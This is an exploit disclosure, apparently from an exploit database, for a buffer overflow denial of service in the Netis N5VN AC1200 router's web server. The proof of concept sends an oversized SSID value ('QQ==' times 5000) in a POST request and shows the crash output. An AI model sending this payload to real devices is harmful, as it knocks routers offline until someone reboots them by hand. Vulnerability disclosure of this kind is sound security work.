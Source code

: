 ## Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

- Date: 05/03/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: https://www.netis-systems.com/

- Version: Netis N5VN AC1200 V1.0.1.1742

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

<iframe width="560" height="315" src="https://www.youtube.com/watch?v=yVUTTPHLiu8" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
